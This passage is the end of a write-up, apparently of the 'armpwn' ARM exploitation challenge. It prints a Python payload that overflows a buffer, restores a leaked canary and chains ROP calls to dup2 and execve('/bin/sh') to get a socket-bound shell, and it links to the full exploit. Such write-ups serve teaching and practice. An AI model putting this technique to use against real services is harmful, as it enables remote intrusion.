 Which makes the final payload quite clear:

{% highlight python %}
saved_regs  = "BBBB"*9
payload = "A"*4042 + canary + saved_regs
payload+= rop_call(dup2, 4, 2)
payload+= rop_call(dup2, 4, 1)
payload+= rop_call(dup2, 4, 0)
payload+= rop_call(execve, binsh, 0, 0)
{% endhighlight %}

You may notice that I also call `dup2()` thrice to redirect stdin/stdout/stderr
directly to the socket (which presumably holds the file description #4).

Now run it, enjoy the shell and a good coffee ☕

![armpwn](https://i.imgur.com/uzlxQx8.png)

The complete exploit code can be found
[here](https://gist.github.com/hugsy/45d1c23f33f09126fe0838c1fe057687).

## Final notes ##

Thanks to {% include icon-twitter.html username="@5aelo" %} for this fun
challenge. It is a good way to get acquainted with
ARM exploitation, and is one of the reason why I build
[`gef`](https://github.com/hugsy/gef.git) in a first
place, i.e. having a good exploitation environment over `gdb` on any
architecture it is supporting.

